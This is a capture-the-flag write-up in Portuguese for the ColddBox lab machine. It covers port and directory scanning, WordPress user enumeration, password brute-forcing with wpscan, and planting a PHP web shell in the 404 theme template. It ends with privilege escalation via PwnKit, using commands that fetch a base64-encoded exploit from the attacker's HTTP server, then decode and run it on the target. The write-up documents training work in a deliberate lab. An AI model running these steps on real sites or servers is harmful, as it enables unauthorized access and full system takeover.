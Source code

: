 # _**Colddbox CTF**_
![](cold.jpg)

## _**Enumeraão**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos uma página web, vamos investigar  
Parece que temos wordpress, vamos tentar enumerar seus diretórios com <mark>wpscan</mark>
> ```bash
> wpscan --url [ip_address] --enumerate vp,vt,cb
> ```
![](wpscan.jpg)

Temos algumas informações úteis, mas nada que podemos explorar  
Com um sca <mark>Nmap</mark>, também obtemos informações de diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-content/CMS/wordpress.fuzz.txt
> ```
![](scan_gobuster.jpg)

## _**Ganhando acesso**_

Ainda podemos tentar enumerar usuários e tentar realizar brute-force  
Para isso, vamos:
> ```bash
> wpscan --url http://[ip_address] -e u -P /usr/share/wordlists/rockyou.txt
> ```
![](brute_wpscan.jpg)

Sucesso!  
Vamos realizar login com o usuário ```c0ldd``` e senha descobertos  
Após o login, podemos usar os recursos sofisticados do modelo 404 do WordPress, que permitem a incorporação de código PHP  
O WordPress é muito inseguro por permitir isso por padrão  
Então, é fácil: podemos usar isso para incorporar nosso shell web PHP nesse modelo  

![](reverse_php.jpg)  

![](shell_php.jpg)  

E temos um shell!  
Vamos melhorar com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Escalando privilégios**_
Executando o comando ```find / -perm -4000 -type f 2>/dev/null```, temos o retorno de um arquivo peculiar: **pkexec**  
Podemos explorar essa falha com <mark>PwnKit</mark>  
Ao tentar realizar a transferência de arquivos para a máquina-alvo, temos como bloqueado  
Para contornar, vamos executar alguns comandos  

<mark>Primeiro, em nossa máquina</mark>
> ```bash
> base64 pwnkit > pwnkit.b64
> ```
> ```bash
> python3 -m http.server 8080
> ```

<mark>Segundo, na máquina-alvo</mark>
> ```bash
> wget http://[ip_address]:8000/pwnkit.b64 -O /tmp/pwnkit.b64
> ```
> ```bash
> base64 -d /tmp/pwnkit.b64 > /tmp/pk
> ```
> ```bash
> chmod +x /tmp/pk
> ```
> ```bash
> cd /tmp
> ```
> ```bash
> ./pk
> ```
![](root.jpg)

Agora basta apenas buscar as flags!
